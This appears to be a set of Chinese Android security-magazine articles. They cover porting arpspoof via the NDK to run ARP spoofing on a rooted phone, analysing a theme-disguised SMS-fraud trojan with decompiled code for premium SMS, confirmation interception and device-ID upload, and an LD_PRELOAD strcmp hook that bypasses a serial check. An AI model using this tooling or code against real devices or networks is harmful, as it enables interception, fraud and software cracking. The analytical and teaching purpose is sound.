复制 Android NDK Sample 目录的 Hello-jni 工程，并重新命名为 arpspoof_android，清空该工程各目录下所有代码，更改 AndroidManifest.xml 文件中的包名（这一步可以不做），将下载的 libnet 与 libpcap 整个目录解压到 arpspoof_android 工程的 jni 目录下，然后在 jni 目录下新建 arpspoof 目录，将 arpspoof 源码的 src 目录下所有文件解压到此目录。完成这一步工作后，结果如图1所示。

接下来配置 libnet 库：进入 libnet 目录，发现有几个以 in 结尾的文件，并且在 include 目录下也有几个 in 结尾的文件，这说明需要先使用 configure 来配置。打开终端提示符，执行 `./configure` 命令，如图2所示。执行完后会生成与 in 相关的头文件。

接着是编写 Android.mk 文件，内容如下：

```makefile
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)

LOCAL_SRC_FILES := \
    src/libnet_advanced.c \
    src/libnet_asn1.c \
    src/libnet_build_802.1q.c \
    src/libnet_build_802.1x.c \
    src/libnet_build_802.2.c \
    src/libnet_build_802.3.c \
    src/libnet_build_arp.c \
    src/libnet_build_bgp.c \
    src/libnet_build_cdp.c \
    src/libnet_build_data.c \
    src/libnet_build_dhcp.c \
    src/libnet_build_dns.c \
    src/libnet_build_ethernet.c \
    src/libnet_build_fddi.c \
    src/libnet_build_gre.c \
    src/libnet_build_hsrp.c \
    src/libnet_build_icmp.c \
    src/libnet_build_igmp.c \
    src/libnet_build_ip.c \
    src/libnet_build_ipsec.c \
    src/libnet_build_isl.c \
    src/libnet_build_link.c \
    src/libnet_build_mpls.c \
    src/libnet_build_ntp.c \
    src/libnet_build_ospf.c \
    src/libnet_build_rip.c \
    src/libnet_build_rpc.c \
    src/libnet_build_sebek.c \
    src/libnet_build_snmp.c \
    src/libnet_build_stp.c \
    src/libnet_build_tcp.c \
    src/libnet_build_token_ring.c \
    src/libnet_build_udp.c \
    src/libnet_build_vrrp.c \
    src/libnet_checksum.c \
    ...

LOCAL_MODULE := libnet
LOCAL_CFLAGS := -O2 -g
LOCAL_CFLAGS += -DHAVE_CONFIG_H \
    -D__attribute__((unused)) -Dlinux -D__GLIBC__ -D_GNU_SOURCE

include $(BUILD_STATIC_LIBRARY)
```

第56行的 `#define HAVE_NET_ETHERNET_H 1`。

修改完后保存退出。配置完 libnet 后开始配置 libpcap。进入 libpcap 目录，发现里面文件很多，根据上面的经验，同样需要先配置一下。直接执行 `./configure`，如果提示缺少 flex 包，需要先执行以下命令安装 flex：

```bash
sudo apt-get install flex
```

安装完成 flex 后，重新输入 `./configure` 进行配置，成功后如图3所示。

第1行 LOCAL_PATH 定义了本地工程路径。  
第2行是初始化脚本用到的所有变量。  
第4行是 LOCAL_SRC_FILES，指定需要编译的 C 源码文件，它的内容我们可以复制 src 目录下 Makefile 文件内 libnet_la_SOURCES 的内容。  
注意 libnet_link_ 开头的 C 文件，它是用来链接具体系统版本的，只需要选择一个，这里是 libnet_link_linux.c。  
第55行是 LOCAL_MODULE，指定需要生成的模块名。  
第56、57行的 LOCAL_CFLAGS 为传递给 arm-linux-gcc 编译器的参数列表。  
第59行指定需要生成静态链接库。  

libnet 库 include 目录下的 config.h 文件中设置了库的一些默认配置，它是 configure 读取本地系统编译器头文件与其他目录后生成的配置文件。里面的一些配置在使用 NDK 编译时会提示没有相关文件的错误，这里需要手动修改。需要手动注释掉 config.h 文件以下部分：

第23行的 `#define HAVE_GETIFADDRS 1`。

执行完后配置还不算完，我在后面才发现 libpcap 还有一些头文件没有生成，需要执行 make 命令来生成它们。打开 Makefile.in 查看到如下代码（第442～447行）：

```makefile
tokdefs.h: grammar.c
grammar.c: $(srcdir)/grammar.y
	@rm -f grammar.c tokdefs.h
	$(YACC) -d $<
	mv y.tab.c grammar.c
	mv y.tab.h tokdefs.h
```

如果直接使用 NDK 进行编译会提示编译错误，而根据错误提示，缺少的函数在 grammar.c 文件中，并且 tokdefs.h 被多处引用，这里具体的错误就不分析了，知道需要它就行了。

如果执行提示 yacc 错误，则需要执行以下命令安装 byacc：

```bash
sudo apt-get install -y byacc
```

重新成功执行 make 后结果如图4所示。

读者肯定会问：为什么需要注释这些定义呢？其实，根据默认配置，使用 NDK 编译会报错，这些定义都是根据错误提示找到的定义，取消这些定义才能编译通过。修改文件使用任意文本编辑器即可，这里使用 gedit，如图5所示。

接下来编写 Android.mk 文件，内容如下：

```makefile
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)

LOCAL_SRC_FILES := \
    bpf_dump.c \
    bpf/net/bpf_filter.c \
    bpf_image.c \
    ethernet.c \
    fad-gifc.c \
    gencode.c \
    grammar.c \
    inet.c \
    nametoaddr.c \
    optimize.c \
    pcap.c \
    pcap-linux.c \
    savefile.c \
    scanner.c \
    sf-pcap.c \
    version.c

LOCAL_MODULE := libpcap
LOCAL_CFLAGS := -O2 -g
LOCAL_CFLAGS += -DHAVE_CONFIG_H
LOCAL_CFLAGS += -D_U_="__attribute__((unused))" -Dlinux -D__GLIBC__ -DHAVE_SOCKLEN_T

include $(BUILD_STATIC_LIBRARY)
```

同样，源文件列表中以 pcap 开头的文件只需要 pcap.c 与 pcap-linux.c，表示生成 Linux 下的库。然后 config.h 文件中有以下地方需要手动注释掉：

- 第36行的 `#define HAVE_ETHER_HOSTTON 1`。
- 第69行的 `#define HAVE_LINUX_ETHTOOL_H 1`。
- 第165行的 `#define HAVE_SYS_BITYPES_H 1`。
- 第249行的 `#define PCAP_SUPPORT_CAN 1`。
- 第258行的 `#define PCAP_SUPPORT_...`

最后来配置 arpspoof 主程序。arpspoof 目录中也有 configure 配置文件，可是阅读 configure 文件发现，并没有头文件或其他配置文件需要生成，于是果断地跳过配置，直接开始编写 Android.mk 文件，内容如下：

```makefile
LOCAL_PATH := $(call my-dir)
MY_LOCAL_PATH := $(LOCAL_PATH)
include $(CLEAR_VARS)

LOCAL_MODULE := arpspoof
LOCAL_SRC_FILES := arpspoof/arp.c \
    arpspoof/arpspoof.c \
    arpspoof/ip6_ndar.c \
    arpspoof/libnet_helper.c \
    arpspoof/find_neigh_mac.c

LOCAL_C_INCLUDES := libpcap libnet/include
LOCAL_STATIC_LIBRARIES := libpcap libnet
include $(BUILD_EXECUTABLE)
include $(MY_LOCAL_PATH)/libpcap/Android.mk
include $(MY_LOCAL_PATH)/libnet/Android.mk
```

第1行的 LOCAL_PATH 定义了本地工程路径。第2行定义了 MY_LOCAL_PATH 变量，用于设置脚本最后搜索库文件的路径。第3行初始化脚本用到的所有变量。第5行的 LOCAL_MODULE 定义模块名称。第6行的 LOCAL_SRC_FILES 指定需要编译的 C 源码文件，arpspoof 目录下共有 5 个 C 文件，这里全部编译。第12行的 LOCAL_C_INCLUDES 指定头文件所在目录搜索路径，脚本中加入了 libpcap 与 libnet。

头文件所在目录。

第13行的 `LOCAL_STATIC_LIBRARIES` 指定程序被编译时需要链接的静态库文件。

第14行的 `include $(BUILD_EXECUTABLE)` 指定需要编译生成可执行文件。

第15、16行指定 `libpcap` 与 `libnet` 的编译脚本，`arpspoof` 在编译时会顺便编译它们。

完成这一步后，在终端提示符下进入 `jni` 目录，执行 `ndk-build`，开始编译程序。`arp.c` 提示出错信息，可能是由于条件编译指令太多，编译器给出的错误提示不是很明显。最后经过多次测试，发现是源码中用到了 `libnet` 中的一些结构，这些结构需要包含 `libnet.h` 文件。在 `arp.c` 中加上一句 `#include <libnet.h>`，重新执行 `ndk-build` 编译，依然提示错误，发现是 `ether_addr` 结构体没有定义。这个结构体是在 `net/ethernet.h` 头文件中声明的，在 `libnet.h` 头文件中有如下语句：

```c
#if !( __linux__ ) && !( _WIN32 ) && !( __APPLE__ ) && !( __CYGWIN__ ) && !( __GNU__ )
#else /* __linux__ */
# if(HAVE_NET_ETHERNET_H)
#  include <net/ethernet.h>
# endif /* HAVE_NET_ETHERNET_H */
#endif /* __linux__ */
```

这段代码的含义是，当 `__linux__`（或者其他任何一个平台）与 `HAVE_NET_ETHERNET_H` 同时被定义时，包含 `net/ethernet.h` 头文件。这个头文件确实在 Android NDK 中，所以我们有两个解决方法：一是在 `arp.c` 文件中自己加上 `ether_addr` 结构的声明，另一种方法是手动定义以上两个变量。使用后者，在编译时会提示很多常量重定义的警告。我选择第一种方法，在 `arp.c` 文件中加入以下代码：

```c
struct ether_addr {
    u_int8_t ether_addr_octet[ETHER_ADDR_LEN];
} __attribute__((__packed__));
```

现在重新编译已经能够通过了！不过提示 `ETHERTYPE_IPV6` 定义冲突，如果觉得看警告信息厌烦，可以在 `libnet/include/libnet` 目录下找到 `libnet-headers.h` 文件，将第510行的 `#define ETHERTYPE_IPV6 0x86dd` 注释掉即可。

将编译生成的 `arpspoof` 可执行文件上传到手机上测试（注意：手机需要能够获取 Root 权限），下面是在 `adb shell` 下执行 `./arpspoof 192.168.1.102` 时的效果。如图6与图7所示，`192.168.1.102` 为本地系统的 IP 地址。


图6


图7

### 总结

本文主要通过移植并使用 `arpspoof` 实现了在 Android 平台下的 ARP 欺骗。由于 Android 是基于 Linux 的内核，因此 Linux 系统的很多攻击手法在 Android 平台上依然能够生效。另外，本人水平有限，如果文中有任何表述不当或错误的地方，还望斧正。

## Android 木马分析与编写


图/文 mangel

### 一、Android 木马介绍

Android 系统比 iPhone 系统更开放，允许安装第三方应用程序，甚至是那些没有获得谷歌应用商店 Android Market 批准的应用程序，但这种开放性似乎也增加了安全风险。Android Market 本身也发现了恶意软件感染的应用程序，不过用户可以像在个人电脑上所做的那样，通过安装杀毒软件来加以防范。

### 二、概述

该程序安装完后是一款桌面主题，并可设置壁纸等，如下图所示。


运行后获取 ROOT 权限，可私自下载安装程序并发送扣费短信，订制 SP 服务，拦截掉返回的扣费确认短信，恶意消耗用户资费；窃取用户通讯录信息等隐私资料，并上传到服务器。

### 三、样本特征

- 1. 敏感权限

```xml
<uses-permission android:name="android.permission.DELETE_PACKAGES" />
<uses-permission android:name="android.permission.INSTALL_PACKAGES" />
<uses-permission android:name="android.permission.READ_CONTACTS" />
android.setting.START_SEND_SMS
android.setting.SMS_SENT
android.provider.Telephony.SMS_RECEIVED
```

- 2. 入口点和恶意模块

```java
public class MyReceiver extends BroadcastReceiver {
    // （1）发送拦截短信
    String str39 = "android.setting.SMS_SENT";
    try {
        String str41 = arrayOfSmsMessage[i3].getOriginatingAddress();
        SmsManager localSmsManager4 = localSmsManager1;
        ArrayList localArrayList7 = localArrayList2;
        localSmsManager4.sendMultipartTextMessage(str41, null, localArrayList5, localArrayList7, null);
    } catch (...) {}

    if (paramIntent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")) {
        ...
    }
}
```

```java
if
((arrayOfSmsMessage[i13].getOriginatingAddress().contains("10658166")) ||
 (arrayOfSmsMessage[i13].getMessageBody().contains("83589523")) ||
 (arrayOfSmsMessage[i13].getMessageBody().contains("客服")) ||
 (arrayOfSmsMessage[i13].getMessageBody().contains("资费")) ||
 (arrayOfSmsMessage[i13].getMessageBody().contains("10.0元")) ||
 (arrayOfSmsMessage[i13].getMessageBody().contains("20.0元")) ||
 (arrayOfSmsMessage[i13].getMessageBody().contains("元/条")) ||
 (arrayOfSmsMessage[i13].getMessageBody().contains("元/次")))
    abortBroadcast();
```

```java
Object localObject1 = localHashtable.put("id", str8);
Object localObject2 = localHashtable.put("imsi", str4);
Object localObject3 = localHashtable.put("imei", str9);
Object localObject4 = localHashtable.put("iccid", str6);
Object localObject5 = localHashtable.put("mobile", str7);
String str9 = TimeUtil.dateToString(new Date(), "yyyyMMddHHmmss");
Object localObject6 = localHashtable.put("ctime", str9);
Object localObject7 = localHashtable.put("osver", "1");
Object localObject8 = localHashtable.put("cver", "010101");
Object localObject9 = localHashtable.put("uid", str1);
Object localObject10 = localHashtable.put("bid", str2);
Object localObject11 = localHashtable.put("pid", str3);
Object localObject12 = localHashtable.put("softid", paramString2);

MessageService.4 local4 = new MessageService.4(this, paramIResponseListener);
NetTask localNetTask = new NetTask(localHashtable, "utf-8", 0, local4);
String[] arrayOfString = new String[1];
arrayOfString[0] = paramString1;
localNetTask.execute(arrayOfString);

public class NetTask extends AsyncTask<String, Integer, String> {
    protected String doInBackground(String[] paramArrayOfString) {
        URL localURL1 = new java.net.URL;
        String str5 = localStringBuffer1.toString();
        URL localURL2 = localURL1;
        String str6 = str5;
        localURL2.<init>(str6);
        localHttpURLConnection = (HttpURLConnection)localURL1.openConnection();
        localHttpURLConnection.setRequestMethod("GET");
        localHttpURLConnection.setConnectTimeout(5000);
        localHttpURLConnection.setReadTimeout(5000);
    }
}
```

（2）获取 ROOT 权限，安装卸载程序。

```java
private void installApk(String paramString1, String paramString2)
{
    try {
        Runtime localRuntime = Runtime.getRuntime();
        StringBuilder localStringBuilder = new StringBuilder("sudo pm install -r ");
        File localFile2 = this.mContext.getFilesDir();
        String str = localFile2 + "/" + paramString2;
        Process localProcess = localRuntime.exec(str);
    }
}

private void installAPK() {}
private void uninstallPlugin()
{
    try {
        int i1 = Log.d("agui", "uninstall");
        Process localProcess = Runtime.getRuntime().exec("pm uninstall -r com.newline.root");
        Intent localIntent1 = new Intent("android.intent.action.RUN");
        Context localContext = this.mContext;
        Intent localIntent2 = ...;
        localIntent1.setClass(localContext, MyService.class);
        ComponentName localComponentName = ...;
        this.mContext.startService(localIntent1);
        return;
    }
}
```

- 3. 敏感字符串

```text
("sudo pm install -r ")
installAPK();
contains("10658166")
contains("83589523")
contains("客服") contains("资费")
```

（3）窃取上传隐私资料。

```java
String str8 = Long.toString(System.currentTimeMillis());
```


## Android API Hook

## 之 LD_PRELOAD

图/文 非虫

说到 API Hook，使用 Windows 平台的朋友肯定再熟悉不过了。在 Windows 平台下，很多软件都用到了 Hook 技术，其中最常见到的就属安全软件了。为了优先获得系统的控制权，杀毒软件很多都使用 Hook，从最初 R3 下的消息钩子到后来 R0 下的 Native API Hook，Windows 平台下的 Hook 正泛滥着。在 Linux 平台下，Hook 技术由于系统架构的不同导致实现起来比较困难，但 Linux 也有自己的特点，部分开发人员经过研究，同样挖掘出了一些可行的 Hook 方案。

现在 Android 来了，它带来了一种全新的软件开发模式，如何在 Android 平台下使用 Hook 技术也是很多开发者十分关注的话题。尽管 Android 与众不同，但它身上依然流淌着 Linux 的血液，因此也继承了 Linux 的部分特性，如 Hook 技术。围绕这个话题，本文将与大家探讨 Linux 平台下 Hook 技术之一——LD_PRELOAD 在 Android 中是如何实现的。

### 1. LD_PRELOAD 原理

LD_PRELOAD 并不是什么深不可测的东西，它只是 Linux 系统中的一个环境变量。

理解 LD_PRELOAD 的作用还得从程序的链接说起。和 Windows 平台一样，Linux 平台的程序也分成静态链接与动态链接两种。静态链接把所有引用到的函数全部编译进可执行文件中，程序在运行时可以直接调用；动态链接则没有把函数编译到可执行文件中，而是在程序运行时动态地载入函数库。在动态链接时，需要查找动态链接库所在的位置，以便从动态链接库中查找函数的地址供程序使用。对于动态链接的程序来说，这个动态链接库具体在哪里、函数地址如何计算，程序自己都不用关心，这个工作交给程序的加载器来完成。

系统提供动态链接使多个程序可以共用相同的代码，节省了程序占用的磁盘空间。同时，在不重新编译程序的情况下，升级动态库中的函数就可以升级整个程序，大大降低了开发人员的维护成本。然而事情总是有好有坏，如果动态链接时动态加载的函数不是开发人员所编写的，而是别有用心的人所写的代码，那程序的流程或返回值可能就会被恶意修改，也就是说，你的程序被 Hook 了。

LD_PRELOAD 就是这样的，它可以影响程序运行时的动态链接。只需通过它预先指定想要加载的动态链接库文件，程序在运行时，系统就会优先加载这个动态链接库，从而覆盖掉正常的动态链接库，一个巧妙的“偷梁换柱”手法。说到这里，很多朋友可能会想到，可以在 LD_PRELOAD 变量中指定 Hook 的动态链接库，在动态链接库中提供 Hook 函数，在程序被执行时，这个 Hook 函数就会替代原函数被执行！在 Linux 平台下确实如此，然而在 Android 平台下也会是这样吗？

### 2. Android 中的 LD_PRELOAD

Android 的动态链接加载器是 `system/bin/linker`。后者主要负责初始化 Android 原生程序运行环境，包括加载程序所引用的动态链接库，修正函数调用地址，执行程序入口函数等。为了搞清楚 **LD_PRELOAD** 变量在 Android 中是否有效，我们去 Android 源码中看看。

`linker` 的源码位于 `bionic\linker` 目录下，主程序文件为 `linker.c`。打开该文件查找 `LD_PRELOAD`，可以发现如下代码：

```c
/* Sanitize environment if we're loading a setuid program */
if (program_is_setuid)
    linker_env_secure();
...
env = linker_env_get("DEBUG");
...
if (!program_is_setuid) {
    ldpath_env = linker_env_get("LD_LIBRARY_PATH");
    ldpreload_env = linker_env_get("LD_PRELOAD");
}
```

`linker_env_secure()` 函数的代码位于 `linker_environ.c` 文件中，主要功能是清除掉系统认为危险的环境变量，这里包括 `LD_PRELOAD`。因此，前3行代码意味着如果执行的是 `setuid()`，则 `LD_PRELOAD` 环境变量无效；相反，`program_is_setuid` 为假时，`LD_LIBRARY_PATH` 与 `LD_PRELOAD` 环境变量就生效了，这时 `LD_PRELOAD` 环境变量的值赋给了 `ldpreload_env`。往后继续看，可以发现如下代码：

```c
if (ldpath_env)
    parse_library_path(ldpath_env, ":");
if (ldpreload_env)
    parse_preloads(ldpreload_env, ":");
...
if (link_image(si, 0)) {
    char errmsg[] = "CANNOT LINK EXECUTABLE";
    write(2, __linker_dl_err_buf, strlen(__linker_dl_err_buf));
    write(2, errmsg, sizeof(errmsg));
    exit(-1);
}
```

`parse_library_path()` 与 `parse_preloads()` 分别解析库加载路径与 `LD_PRELOAD` 库路径。`LD_PRELOAD` 中所有的库文件路径是以冒号 `:` 分隔的，在 `parse_preloads()` 函数中，它们被分隔并保存到了一个全局的缓冲区 `ldpreloads_buf` 中。

其中，这个缓冲区被设为 512 字节，`LD_PRELOAD` 环境变量中指定的库的个数最多为 8 个，`parse_preloads()` 代码如下：

```c
static void parse_preloads(const char *path, char *delim)
{
    size_t len;
    char *ldpreloads_bufp = ldpreloads_buf;
    int i = 0;
    len = strlcpy(ldpreloads_buf, path, sizeof(ldpreloads_buf));
    while (i < LDPRELOAD_MAX &&
           (ldpreload_names[i] = strsep(&ldpreloads_bufp, delim))) {
        if (*ldpreload_names[i] != '\0') {
            ++i;
        }
    }
    if (i > 0 && len >= sizeof(ldpreloads_buf) &&
        ldpreloads_buf[sizeof(ldpreloads_buf)-2] != '\0') {
        ldpreload_names[i-1] = NULL;
    } else {
        ldpreload_names[i] = NULL;
    }
}
```

在库文件搜索并设置完成后，调用 `link_image()` 完成真正的链接工作。`link_image()` 函数的代码很健壮，主要的工作是加载动态链接库、修正函数地址等。到这里你就明白了，`LD_PRELOAD` 环境变量在 Android 中真的有！

### 3. 编写测试代码

编写代码部分相对比较简单了，与编写 Linux 的 C 程序一样，我们先编写一个正常的程序，代码如下：

```c
/* app.c */
#include <stdio.h>
#include <string.h>
#define bool int

bool checkSN(const char* sn) {
    char realcode[] = "ilikeandroid";
    return !(strcmp(realcode, sn));
}

void main(int argc, char **argv) {
    if (argc < 2) {
        printf("please input your sn");
        return;
    }
    if (!checkSN(argv[1])) {
        printf("the sn was invalid\n");
        return;
    }
    printf("thanks for register!\n");
}
```

这段代码简单地模拟了注册码验证。我们现在要 Hook 这个验证函数，让程序输入任意字符串都提示注册成功。编写 `hook.c`，代码如下：

```c
/* hook.c */
#include <stdio.h>
#include <dlfcn.h>
...
```

## Android 远程监控校对

```c
void* getrealaddr(const char* s1, const char* s2) {
    void* lib = dlopen("libc.so", RTLD_NOW | RTLD_GLOBAL);
    void* symbol;
    if (lib == NULL) {
        fprintf(stderr, "Could not open self-executable with dlopen(NULL): %s\n", dlerror());
        return -1;
    }
    symbol = dlsym(lib, "strcmp");
    fprintf(stderr, "the real strcmp address: 0x%8x\n", symbol);
    dlclose(lib);
    return symbol;
}

int strcmp(const char* s1, const char* s2) {
    fprintf(stderr, "the first arg is: %s; the second arg is:%s\n", s1, s2);
    getrealaddr(s1, s2);
    return 0;
}
```

hook.c 中提供了 strcmp() 函数，它首先打印了输入参数，然后获取真正的 strcmp() 函数的地址并输出；函数最后返回 0，表示字符串 s1 与 s2 相同。Hook 代码有一点需要注意，要被 Hook 的函数不能在其他文件中被定义，否则在编译时会报“error: conflicting types for XXX”的错误。

正常程序与 Hook 程序都使用 Android NDK 来编译。将 Android NDK Sample 目录下的 hello-jni 目录复制一份，并重命名为 hook，修改 jni 目录下的脚本文件 Android.mk，内容如下：

```makefile
LOCAL_PATH := $(call my-dir)
# module hook
include $(CLEAR_VARS)
LOCAL_MODULE := hook
LOCAL_SRC_FILES := hook.c
include $(BUILD_SHARED_LIBRARY)
# module app
include $(CLEAR_VARS)
LOCAL_MODULE := app
LOCAL_SRC_FILES := app.c
include $(BUILD_EXECUTABLE)
```

脚本共生成两个模块，分别是 app 可执行程序与 libhook.so 动态链接库。打开 CMD 窗口，进入 Hook 目录，输入 ndk-build 编译工程，代码无误时，输出结果如下图所示，生成的可执行程序位于 libs/armeabi/ 目录下。


编译成功后开启模拟器或连接真机来测试效果。为了少打几行字，编写自动部署批处理 install.bat，内容如下：

```bat
@echo off
adb push libs/armeabi/app /data/local/tmp/
adb push libs/armeabi/libhook.so /data/local/tmp/
adb shell chmod 777 /data/local/tmp/app
adb shell chmod 777 /data/local/tmp/libhook.so
adb shell
```

运行 install.bat，依次输入以下几行命令查看执行结果：

```bash
cd /data/local/tmp
./app 12345
export LD_PRELOAD="/data/local/tmp/libhook.so"
./app 12345
./app 54321
```

在输入 export 这行代码前，程序的输出如下：

```bash
# ./app 12345
./app 12345
the sn was invalid!
```

在输入 export 这行代码后，程序的输出如下：

```bash
# ./app 12345
./app 12345
the first arg is: ilikeandroid, the second arg is:12345
the real strcmp address: 0xafd37a41
thanks for registion!
# ./app 54321
./app 54321
the first arg is: ilikeandroid, the second arg is:54321
the real strcmp address: 0xafd37a41
thanks for registion!
```

可见 Hook 代码成功起作用了！最后有几点需要注意：

- 1. 在 linker 中，LD_PRELOAD 的环境变量保存在一个全局的缓冲区中，Hook 的函数在整个程序的执行会话中都是有效的，但不影响其他的会话。
- 2. Hook 的函数可以是系统 API，也可以是其他动态链接库的函数。
- 3. Hook 系统 API 时，在 Hook 的代码中不能调用这个被 Hook 的函数，否则程序会异常退出。
- 4. 想要使 Hook 对整个系统会话生效，可以在 Android 系统启动配置文件的 init.rc 中声明 LD_PRELOAD 环境变量，目前发现有些软件是这么做的。

### 总结

本文主要分析并实现了 Android 平台下使用 LD_PRELOAD 来完成 Hook API 的方法。对于 Android 平台的 Hook 技术来说，这是最简单的。他的方法我会在以后陆续与大家分享。另外，本人水平有限，如果文中有任何表述不当或错误的地方，还望斧正。我的 E-mail: fei_cong@hotmail.com。

## Android 下 APK 及 DEX 文件解析


文 mangel

### APK 文件

APK 是 Android Package 的缩写，即 Android 安装包。APK 是类似 Symbian Sis 或 Sisx 的文件格式，计算机上的安装文件的扩展名为“.exe”。通过将 APK 文件直接传到 Android 模拟器或 Android 手机中执行即可安装。

使用 Android 打包工具（aapt），可以将 DEX 文件、资源文件及 AndroidManifest.xml 文件（二进制格式）组合成一个应用程序包（APK）。APK 文件其实是 zip 格式，但扩展名被改为 apk，通过 UnZip 解压后，可以看到 Dex 文件。Dex 是 Dalvik VM executes 的全称，即 Android Dalvik 执行程序，并非 Java ME 的字节码，而是 Dalvik 字节码。

一个 APK 文件结构通常如下所示：

| 文件/目录 | 说明 |
|---|---|
| META-INF | Jar 文件通常可看到 |
| res | 存放资源文件的目录 |
| AndroidManifest.xml | 程序全局配置文件 |
| classes.dex | 字节码 |
| resources.arsc | 编译后的二进制资源文件 |
| Dalvik | （示意中出现的相关项） |

从文件结构可以知道，Android 在运行一个程序时，首先需要 UnZip，然后像 Symbian 那样直接运行。APK 文件与 Windows Mobile 中的 PE 文件有所区别，程序的保密性和可靠性不是很高，通过 Dexdump 命令可以反编译，但这样做符合发展规律，微软的 Windows Gadgets 或者说 WPF 也采用了这种构架方式。

在 Android 平台中，dalvik vm 的执行文件被打包为 APK 格式，最终运行时，加载器会解压获取编译后的 AndroidManifest.xml 文件中的与 permission 分支相关的安全访问，但仍然存在很多安全限制。如果将 APK 文件传到 /system/app 文件夹下，则会发现执行是不受限的。我们平时安装的文件可能不是这个文件夹，而在 android rom 中，系统的 APK 文件默认会放入此文件夹，拥有 Root 权限。

### DEX 文件

DEX 是 Dalvik VM executes 的全称，即 Android Dalvik 执行程序，并非 Java ME 的字节码，而是 Dalvik 字节码。Google 在新发布的 Android 平台上使用自己的 Dalvik 虚拟机来定义，这种虚拟机执行的并非 Java 字节码，而是另一种字节码：DEX 格式。在编译 Java 代码之后，通过 Android 平台上的工具，可以将 Java 字节码转换成 Dex 字节码。虽然 Google 称 Dalvik 是为了移动设备定制的，但业界很多人认为这是为了规避向 Sun 申请 Java license。这个 Dalvik VM 针对手机程序/CPU 做过最优化，可以同时执行许多 VM 而不占用太多资源。

对 Android DEX 文件进行优化，需要注意的一点是，DEX 文件结构虽是紧凑的，但要想提高程序的运行速度，仍然需要对 DEX 文件进行进一步优化。

调整所有字段的字节序（LITTLE_ENDIAN）和对齐结构中的每一个域，验证 DEX 文件中的所有类，并对一些特定的类进行优化，对方法里的操作码进行优化。优化后的文件大小会有所增加，应该是原 Android DEX 文件的 1~4 倍。优化发生的时机有两个：对于预置应用，可以在系统编译后生成优化文件，以 ODEX 结尾。这样在发布时，除 APK 文件（不包含 DEX）外，还有一个相应的 Android DEX 文件；对于非预置应用，包含在 APK 文件里的 DEX 文件会在运行时被优化，优化后的文件被保存在缓存中。

每一个 Android 应用都运行在一个 Dalvik 虚拟机实例里，而每一个虚拟机实例都是一个独立的进程空间。虚拟机的线程机制、内存分配和管理、Mutex 等都是依赖底层操作系统而实现的。所有 Android 应用的线程都对应一个 Linux 线程，虚拟机因而可以更多地依赖操作系统的线程调度和管理机制。不同的应用在不同的进程空间里运行，加之对不同来源的应用都使用不同的 Linux 用户来运行，从而可以最大程度地保护应用的安全和独立运行。

Zygote 是一个虚拟机进程，同时也是一个虚拟机实例的孵化器。每当系统要求执行一个 Android 应用程序时，Zygote 就会 Fork 出一个子进程来执行该应用程序。这样做的好处显而易见：Zygote 进程是在系统启动时产生的，它会完成虚拟机的初始化、库的加载、预置类库的加载和初始化等操作。而在系统需要一个新的虚拟机实例时，Zygote 通过复制自身，最快速地提供一个系统。另外，对于一些只读的系统库，所有虚拟机实例都和 Zygote 共享一个内存区域，大大节省了内存开销。

Android 应用开发和 Dalvik 虚拟机所使用的编程语言是 Java。和 Java SE 一样，编译时使用 Sun JDK 将 Java 源程序编译成标准的 Java 字节码文件（.class 文件）；而后通过工具软件 DX 把所有的字节码文件转成 Android DEX 文件（classes.dex）；最后使用 Android 打包工具（aapt）将 DEX 文件、资源文件及 AndroidManifest.xml 文件（二进制格式）组合成一个应用程序包（APK），应用程序包可以被发布到手机上运行。

### DEX 文件反汇编

Android 模拟器中提供了一个 DEX 文件的反编译工具 Dexdump。用法为：首先启动 Android 模拟器，把要查看的 DEX 文件用 adb push 上传到模拟器中，通过 adb shell 登录，找到要查看的 DEX 文件，再执行“dexdump xxx.dex”即可。（在模拟器环境下，使用电脑执行 Android Debug Bridge（adb）工具可以操作 Linux Shell，也可实现与模拟器下 adbd 程序之间的通信）

另一个 DEX 文件反编译工具是 Dedexer，它可以读取 DEX 格式的文件，生成一种类似于汇编语言的输出。

下载 ddx1.5.zip 后，解压缩会生成一个 dedexer 目录，其中包含 build.xml 文件，需要根据本机的环境配置 build.xml 的内容。环境配置好之后就可以开始编译了，当然首先要保证已经安装好了 ant 编译工具。

```bash
java -jar ddx.jar -d <反编译文件存放目录> <dex 文件>
```

那么，我们如何使用 ddx 呢？执行命令即可得到 ddx 文件，并进行分析阅读。

## 移植 Linux 源码到 Android

### 系统环境搭建


图/文 mangel

这周进行了一周的代码移植，将 Linux 上的代码移植到 Android 中供 JNI 调用。起初觉得并不难，这段代码是用做多个平台的，里面定义了无数个编译开关，有用的、没用的乱七八糟一大堆，我的头顿时大了起来。先是查 make 文件，找 flags 文件及 configure 文件，从里面找编译时要使用的开关选项，然后打开一堆窗口。先是手动查找，接下来手动将不需要的选项删除，最后把代码在 Android 中用 ndk-build 来编译。下面是一般过程和环境搭建，其部分内容参考网络内容。

- 1. 下载 Android SDK，网址：http://developer.android.com/sdk/index.html，根据系统的不同选择不同的版本下载。下载之后直接解压。运行 SDK manager，选择需要的 API 版本进行安装，选择界面如图 1 所示。
- 2. 下载 NDK，网址：http://developer.android.com/sdk/ndk/index.html，根据操作系统的不同，下载不同的版本，Windows 版本下载之后解压即可使用。
- 3. 下载 Apache Ant，网址：http://ant.apache.org/bindownload.cgi，Windows 版本下载 zip 格式并解压即可使用。
- 4. 安装 JDK 之后需要选择“我的电脑→属性→高级→环境变量”来新建一个 JAVA_HOME 的环境变量，指向 JDK 的目录，如图 2 所示。
- 5. 运行 AVD Manager，创建一个虚拟的 Android，并单击 Start... 按钮进行启动，如图 3 所示。


图 1


图 2


图 3

（6）在 NDK 的目录下创建一个批处理文件 android-cmd.bat，内容如下：

```bat
set PATH=%PATH%;%cd%;I:\android\apache-ant-1.8.3\bin;D:\DevelopTools\android-sdk\platform-tools;D:\DevelopTools\android-sdk\tools;D:\DevelopTools\JDK7\bin;
cmd.exe
```

从上面的内容可以看出，我的 ant 安装在 I:\android\ 下面，Android 的 SDK 安装在 D:\DevelopTools 下面，JDK 安装在 D:\DevelopTools 下面。原因是编译时需要用到 ant/adb/android 命令，所以需要将包含该命令的目录添加到该批处理的路径中。而 ant 需要 JDK 环境。

（7）运行 android-cmd.bat，使用 cmd 命令切换到 samples/hello-jni 目录下。运行 android update project -p . -s，会生成 build.xml 文件。要注意的是，编译的时候会发生错误，提示：

```text
Error: The project either has no target set or the target is invalid.
Please provide a --target to the 'android.bat update' command.
```

这个时候，可以使用 android list targets 命令来查看当前系统中的 Android 模拟器，我有两个，如下所示：

```text
I:\android\android-ndk-r7c\samples\native-activity>android.bat list targets
